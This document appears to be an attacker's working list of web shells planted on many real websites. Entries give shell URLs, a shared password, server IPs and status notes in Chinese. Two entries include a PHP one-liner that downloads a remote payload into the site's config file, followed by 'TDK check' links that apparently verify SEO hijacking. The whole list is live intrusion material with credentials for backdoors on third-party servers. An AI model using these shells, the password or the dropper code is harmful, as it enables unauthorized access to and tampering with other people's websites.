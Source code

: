 http://cy-zdh.com/upload/attached/20200419/b6m.php | 211.149.164.178


regular: 
39.107.65.243 阿里云
已批量修改
https://www.sdbcsw.com/apps/home/model/m1.php | 39.107.65.243  www.sdbcsw.com/puiblic.php  最新版
修改点:
/www/wwwroot/www.sdbcsw.com/template/www.sdbcsw.com/html/common/head.html
https://www.maifusd.com/static/upload/image/20231219/m1.php |mmk123 | 39.107.65.243     连不上
https://www.bkmjxs.cn/uploads/20211106//m1.php |mmk123 | 39.107.65.243     连不上
https://www.bkfhauv.com/static/ueditor/php/m1.php |mmk123 | 39.107.65.243   连不上
https://www.biobasebaby.com/uploads/images/20210621/m1.php |mmk123 | 39.107.65.243  连不上
https://www.gx-biosensor.com/uploads/210329/210329/210329/210329//m1.php |mmk123 | 39.107.65.243

http://www.zhishifufei.xyz/static/upload/image/20211005/m1.php |mmk123 | 1.94.24.175
http://cfvvv.com/template/dx/images/m1.php |mmk123 | 42.194.134.121  后台登陆页面


http://www.xn--wlq673eova83m.cn/core/extend/code/simple.php |mmk123 | 124.222.129.233
http://www.lgms56.cn/skin/images/m1.php |mmk123 | 114.55.130.128

http://yqyb.fun/template/template_init.php |mmk123 | 154.212.146.242   0526-  403了
http://cablewiresfactory.com/template/template_init.php |mmk123 | 216.224.127.219    403

https://www.taiyangnengludengweixiu.com/uploads/20230227/m1.php |mmk123 | 8.140.244.215
https://hnsjtjsxh.cn/   河南省交通技术协会  已经有半岛 已批量改
代码更新：
https://hnsjtjsxh.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
TDK检查：
https://hnsjtjsxh.cn/config/httpd.php?d=up


http://reshihuoke.cn/template/default/html/comm/m1.php |mmk123 | 124.221.145.227
代码更新：
http://reshihuoke.cn/rewrite/nginx.php  名字任意
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
TDK检查：
http://reshihuoke.cn/config/httpd.php?d=up

http://360ai.cc/wp-content/languages/themes/m1.php |mmk123 | 124.221.145.227
https://www.crystunion.com/template/default/simple.php |mmk123 | 47.105.45.80
https://www.tzsps.com/static/images/m1.php |mmk123 | 106.54.60.101

## 待办：
regular: 
http://fangac.cn/three/three.js-master/docs/api/ar/audio/m1.php |mmk123 | 114.55.58.214
主要是管理后台 已改

https://www.1000ma.net/static/backup/sql/m1.php |mmk123 | 120.77.152.51  Done

https://gxzhiyin.cn/skin/fonts/m1.php |mmk123 | 211.101.244.147  连不上
